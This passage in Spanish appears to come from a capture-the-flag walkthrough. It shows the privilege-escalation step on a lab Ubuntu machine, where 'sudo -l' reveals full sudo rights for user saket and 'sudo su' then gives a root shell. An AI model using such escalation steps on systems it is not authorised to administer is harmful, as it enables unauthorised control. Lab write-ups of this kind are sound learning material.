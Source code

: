 
## Escalación de privilegios

---

Listamos los permisos del usuario sobre el sistema y tenemos acceso full. 

Somos root.

```bash
saket@ubuntu:~$ sudo -l
[sudo] password for saket:
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL

saket@ubuntu:~$ sudo su
root@ubuntu:/home/saket#
```

Hope it helps!